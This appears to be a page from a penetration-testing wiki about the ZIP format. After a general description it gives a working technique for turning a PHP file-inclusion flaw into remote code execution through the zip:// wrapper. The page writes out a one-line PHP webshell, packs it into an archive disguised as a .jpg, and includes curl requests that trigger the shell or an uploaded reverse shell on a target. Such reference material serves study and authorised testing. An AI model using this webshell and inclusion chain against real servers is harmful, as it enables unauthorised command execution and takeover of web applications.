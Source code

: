 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# ZIP

The ZIP file type is a widely used archive format designed to compress and bundle one or more files or directories into a single file for storage, distribution, or transport. It employs lossless compression algorithms, most commonly DEFLATE, to reduce file size without affecting the original content. A ZIP archive contains a central directory that lists the files, their metadata, and their compressed or uncompressed sizes, enabling efficient extraction and navigation of its contents.

ZIP files can store any type of data, including documents, images, executables, and even other archives, making them highly versatile. Many operating systems and applications provide native support for creating and extracting ZIP files, which contributes to their ubiquity. From a security perspective, ZIP archives can be abused to deliver malicious payloads, conceal executable code, or exploit vulnerabilities in archive parsing libraries. Password protection and encryption are supported, although implementations vary in strength, and weak encryption methods may be easily bypassed. Overall, ZIP remains a core format for software distribution, backup, and data exchange across diverse computing environments.

The [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper (not enabled by default) allows to achieve RCE by archiving a webshell into a zip file ending in an allowed extension, e.g. `.jpg`. The files within the archived can be reached using `#`. This has a higher chance to work if ZIP uploads are allowed by the application, as content-type filters may block it.

{% code overflow="wrap" %}
```shell
# Create and archive a webshell (zip file = shell.jpg)
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

# Upload → RCE (URL-encode '#' -> %23)
curl http://<ip:port>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
{% endcode %}

If ZIP uploads are allowed or the application stores the uploaded files in ZIP format, the shell can be uploaded directly and then accessed with or without the extension (depending on the code implementation):

{% code overflow="wrap" %}
```bash
$ curl --path-as-is "http://target-instance/index.php?file=zip://uploads/upload_1754572937.zip%23php-reverse-shell"
```
{% endcode %}
